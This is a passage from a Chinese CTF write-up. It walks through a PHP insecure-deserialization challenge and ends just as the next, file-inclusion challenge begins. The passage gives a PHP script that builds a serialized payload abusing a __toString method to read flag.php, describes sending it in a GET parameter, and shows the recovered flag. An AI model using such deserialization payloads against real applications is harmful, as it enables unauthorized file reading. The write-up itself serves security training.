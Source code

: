 对下载下来的源码进行代码审计，发现存在反序列化参数可控，并且可以正常触发反序列数据，根据序列化代码部分，构造恶意的序列化payload

```
&lt;?php
class baby 
`{`
    public $file;
    function __toString()      
    `{`
        if(isset($this-&gt;file))
        `{`
            $filename = "./`{`$this-&gt;file`}`";
            if (base64_encode(file_get_contents($filename)))
            `{`
                return base64_encode(file_get_contents($filename));
            `}`
        `}`
    `}`
`}`

$flag = new baby();
$flag-&gt;file = 'flag.php';
echo serialize($flag);
?&gt;
```

[![](https://p2.ssl.qhimg.com/t012ed56d6107356e32.png)](https://p2.ssl.qhimg.com/t012ed56d6107356e32.png)

继续审计，使用攻击载荷，对Get请求data传参，传入序列化数据，当反序列化数据被当作字符串处理时`echo`，会触发`__toString`反序列化载荷，然后由`file_get_contents($filename)`执行读取文件的操作

[![](https://p4.ssl.qhimg.com/t01d424d8c783f1048b.png)](https://p4.ssl.qhimg.com/t01d424d8c783f1048b.png)

base64解码得到特殊文件内容

[![](https://p1.ssl.qhimg.com/t01c731ed14d972db3f.png)](https://p1.ssl.qhimg.com/t01c731ed14d972db3f.png)

```
flag`{`u_r_really_a_php_expert`}`
```

### <a class="reference-link" name="What%20can%20images%20do"></a>What can images do

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01e3c5dfa1762665be.png)

考点：文件包含Bypass前缀限制、敏感信息泄露

题目面目

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01298845fa033061c0.png)
